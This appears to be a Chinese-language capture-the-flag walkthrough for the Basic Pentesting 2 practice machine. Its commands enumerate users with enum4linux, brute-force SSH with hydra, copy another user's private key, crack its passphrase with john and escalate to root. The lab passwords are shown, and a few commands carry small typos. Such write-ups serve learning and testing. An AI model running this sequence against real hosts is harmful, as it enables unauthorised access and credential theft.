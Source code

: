 
##### 攻擊主機：Kali_Linux_2019.3 
##### 靶機：Basic_Pentesting_2.1

**Kali>** <code>arp-scan -l</code> (尋找靶機)<br/>
**Kali>** <code>nmap -A 192.168.203.132</code> (去看他開啟了甚麼port) <br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/587481ef-dc6a-4eb7-b822-6aaab8f60a39)<br/>
(我發現他開啟了22port，那就可以走簡單的ssh，也發現他有開samba 我選擇走enum4linux)<br/>
**Kali>** <code>enum4linux 192.168.203.132</code> (掃描，看看能掃到甚麼)<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/934b796a-fdba-4e40-9714-ea289b312fed)<br/>
(得到兩個使用者帳號 Kay 和 Jan)<br/>
(Jan 權限較低，較好攻擊)<br/>
**kali>**  <code>hydra -l jan -P /usr/share/wordlists/rockyou.txt 192.168.203.132 ssh</code> (破解密碼)<br/>
(得到帳號jan的密碼：armando)<br/>
**kali>** <code>ssh jan@192.168.203.132</code>(連線到jan的帳號)<br/>
**Jan>** <code>sudo -l</code>(測試我的權限)(發現權限不足，改入侵kay)<br/>
**Jan>** <code>pwd</code>(查看我在哪裡)<br/>
**Jan>** <code>cd ..</code><br/>
**Jan>** <code>ls -al</code><br/>
**Jan>** <code>cd /home/kay</code>(移動到kay的檔案夾下)<br/>
**Jan>** <code>ls -al</code>(看看有甚麼檔案，發現pass.bak)
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/fce2acb2-87c4-4bb4-aa61-bb323397a3de)<br/>
**Jan>** <code>cat pass.bak</code>(嘗試開啟，發現沒有權限)<br/>
**Jan>** <code>cd ssh</code>(移動到ssh下面)<br/>
**Jan>** <code>ls -al</code>(找金鑰檔)<br/>
**Jan>** <code>scp jan@192.168.203.132:/home/kay/.ssh/id_rsa ./</code>(把金鑰存到我的位置)<br/>
**Kali>** <code>locate ssh2john</code>(因為ssh2john已經不在新版的kali的全域變數中，需先locate ssh2john)<br/>
**Kali>** <code>/usr/share/john/ssh2john.py id_rsa > kay.hash</code>(將id_rsa轉成hash)<br/>
**Kali>** <code>john -w:/usr/share/wordlists/rockyou.txt kay.hash</code>(john他)<br/>
(得到beeswax)<br/>
**Jan>** <code>ssh -I /home/kay/.ssh/id_rsa kay@localhost</code>(輸入金鑰後變成kay)<br/>
(可開啟pass.bak)<br/>
(得到密碼heresareallystrongpasswordthatfollowsthepasswordpolicy$$)<br/>
**Kay>** <code>sudo su</code><br/>
**Kay>** <code>whoami</code><br/>
##### Root<br/>
![image](https://github.com/Superliverbun/My-CTF-Challenges/assets/113052517/5ed96111-62e8-4284-be53-339a886612f5)

成功<br/>
